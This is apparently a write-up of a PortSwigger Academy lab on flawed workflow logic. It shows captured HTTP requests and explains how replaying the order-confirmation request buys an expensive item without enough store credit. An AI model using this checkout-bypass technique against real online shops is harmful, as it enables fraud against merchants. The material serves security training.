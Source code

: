 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2a762499-882e-440d-915a-5b76a64c029c)

## Overview:

> Users won't always follow the intended sequence 

Many transactions rely on **predefined workflows consisting of a sequence of steps**. The web interface will typically guide users through this process, taking them to the next step of the workflow each time they complete the current one. However, **attackers won't necessarily adhere to this intended sequence.**

Using tools like Burp Proxy and Repeater, **once an attacker has seen a request, they can replay it at will and use forced browsing to perform any interactions with the server in any order they want**. This allows them to complete different actions while the application is in an unexpected state. 

To identify these kinds of flaws, you should use forced browsing to submit requests in an unintended sequence. For example, _you might skip certain steps, access a single step more than once_, return to earlier steps, and so on

## Solution :

So we need to abuse the flawed workflow while ordering a product to solve this lab.

### Workflow

First login as wiener .Click on the leather jacket product & add the item to cart.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/97324883-e8e7-49a9-b5bd-71454da7a77a)

The following request is sent.

```http
POST /cart HTTP/1.1
Host: 0ae800f303e463fc846da16000350070.web-security-academy.net
Cookie: session=G44CZuircwtnZmoAaSNwDSwpbsULi7uP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0ae800f303e463fc846da16000350070.web-security-academy.net
Referer: https://0ae800f303e463fc846da16000350070.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

productId=1&redir=PRODUCT&quantity=1
```

In the cart page, we can see that the product is added & we can now place the order.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/dd59c3aa-f1c2-4d7f-8dd5-ad3690723c21)

When we place the order the following POST request is sent to `/cart/checkout`.

```http
POST /cart/checkout HTTP/2
Host: 0ae800f303e463fc846da16000350070.web-security-academy.net
Cookie: session=FrFZmMsVa1rg3dwRExGgltBTD0gijy4m
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://0ae800f303e463fc846da16000350070.web-security-academy.net
Referer: https://0ae800f303e463fc846da16000350070.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=viHBF1tw4OTvvpMH8ukIZ9TjfivZqHrR
```
#### Case 1 - [ product_value > store_credit ]

But then we can't buy the jacket($1337) since we have only $100.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5f005e6f-9da4-4bed-a7c8-c78f800cb96b)

#### Case 2 - [ product_value < store_credit ]

We repeat the same process again but this time we add a product that costs less than $100.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a1025da9-fe20-45b6-ab57-36b382360a19)

This time when we place the order, we have another request being sent after */cart/checkout* which is a GET request to */cart/order-confirmation*

```http
GET /cart/order-confirmation?order-confirmed=true HTTP/2
Host: 0ae800f303e463fc846da16000350070.web-security-academy.net
Cookie: session=FrFZmMsVa1rg3dwRExGgltBTD0gijy4m
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ae800f303e463fc846da16000350070.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

### Abusing flawed workflow logic -

Thinking from an attacker's perspective, we can add any costly product, in our case the **leather jacket** & just resend the GET request to */cart/order-confirmation* endpoint with parameter `?order-confirmation=true` to place an order wihtout going through the intended workflow.

By this way we're abusing the flawed workflow mechanism since the server doesn't validate the workflow properly.

Now to solve the lab perform the following steps.

- Add the leather jacket to cart (can also add n number of jackets as our wish).
- Send GET request to /cart/order-confirmation.

Refresh the page to confirm that the lab is solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3842b00f-efd5-40ab-9286-57320c73a824)

